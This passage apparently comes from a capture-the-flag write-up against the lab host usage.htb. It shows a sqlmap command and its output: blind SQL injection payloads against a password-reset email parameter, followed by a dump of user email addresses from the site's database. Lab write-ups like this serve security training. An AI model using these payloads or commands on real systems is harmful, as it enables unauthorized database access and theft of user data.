 ```bash
[23:39:37] [INFO] fetched data logged to text files under '/home/leopold/.local/share/sqlmap/output/usage.htb'
[23:39:37] [WARNING] your sqlmap version is outdated

[*] ending @ 23:39:37 /2024-08-06/
```

```bash
$ sqlmap -r request.txt --data="_token=SPlfAxte0uocmjyWay8x9TCSAcphFEZMqPL4gIIh&email=leopold" -p email --batch --level 5 --risk 3 --threads 10 -D usage_blog -T users -C email --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:34:07 /2024-08-06/

[23:34:07] [INFO] parsing HTTP request from 'request.txt'
[23:34:07] [INFO] resuming back-end DBMS 'mysql' 
[23:34:07] [INFO] testing connection to the target URL
got a 302 redirect to 'http://usage.htb/forget-password'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=SPlfAxte0uocmjyWay8x9TCSAcphFEZMqPL4gIIh&email=leopold' AND 5458=(SELECT (CASE WHEN (5458=5458) THEN 5458 ELSE (SELECT 4624 UNION SELECT 6593) END))-- UEue

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: _token=SPlfAxte0uocmjyWay8x9TCSAcphFEZMqPL4gIIh&email=leopold' AND 1208=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C)-- zgvX
---
[23:34:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12
[23:34:10] [INFO] fetching entries of column(s) 'email' for table 'users' in database 'usage_blog'
[23:34:10] [INFO] fetching number of column(s) 'email' entries for table 'users' in database 'usage_blog'
[23:34:10] [INFO] retrieved: 
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
5
[23:34:19] [INFO] retrieving the length of query output
[23:34:19] [INFO] retrieved: 23
[23:35:24] [INFO] retrieved: brm@brunorochamoura.com             
[23:35:24] [INFO] retrieving the length of query output
[23:35:24] [INFO] retrieved: 15
[23:36:21] [INFO] retrieved: davy@wavy.gravy             
[23:36:21] [INFO] retrieving the length of query output
[23:36:21] [INFO] retrieved: 11
[23:37:09] [INFO] retrieved: raj@raj.com             
[23:37:09] [INFO] retrieving the length of query output
```